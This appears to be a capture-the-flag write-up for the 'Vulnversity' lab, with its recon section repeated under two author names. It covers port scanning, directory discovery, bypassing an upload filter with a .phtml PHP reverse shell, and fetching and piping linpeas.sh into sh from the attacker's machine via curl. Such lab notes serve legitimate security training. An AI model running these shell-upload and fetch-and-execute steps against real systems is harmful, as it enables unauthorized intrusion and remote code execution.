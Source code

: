 Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------



Task 1: Reconnaissance

# Nmap scan

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`





# Vulnversity
 _Author: minimcloving_

 _Date: 17 July 2021_

--------------------
--------------------
## nmap scan

###Open Port
* **21** - ftp - vsftpd 3.0.3
* **22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
* **139** - netbios-ssn Samba smbd 3.x - 4.x
* **445** - ' ' smbd 4.3.11-Ubuntu
* **3128** - http-proxy - Squid http proxy 3.5.12
* **3333** - http - Apache httpd 2.4.18

###OS Detection
* OS: Windows 6.1 (Samba 4.3.11-Ubuntu)


## GoBuster

```
http://<ip>:3333
wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
* /images
* /css
* /js
* /fonts
* /internal
* /server-status


## Notes

* /internal brings us to a form upload pages
    * .php is not allowed
    * No extention in original /usr/share/wordlists/wfuzz/general/extensions_common.txt are allowed
    * Fuzzing the upload form, we find that **.phtml** is allowed


## Walkthrough

* nmap scan
    * discovered webserver
* dirbuster to find dirs
    * discovered form upload
* fuzzed w/ burpsuite
    * discovered .phtml file extension allowed
    * uploaded php reverse shell with `.phtml` extension 
* get in with nc
    * Navigating around reverse shell, discover user named `bill`
    * his home directory contained the flag
* Transfer linpeas.sh to our exploited machine to run the script
    * On local machine, run this command:
        * `python -m SimpleHTTPServer 80`
    * On the victim machine, run this command:
        * `curl <local ip address*>/linpeas.sh | sh`
            * * If you are using openvpn, this will be the ip address that openvpn generates, not your actual machines local ip address. This is because the victim machine can only connect to the vpn address. Try it yourself: once you get into the machine, send a ping to both addresses (you may have to ctrl+c to escape the ping and redo your nc -lvnp connection)
* linpeas.sh shows under interesting files -> SUID:
    * /bin/systemctl



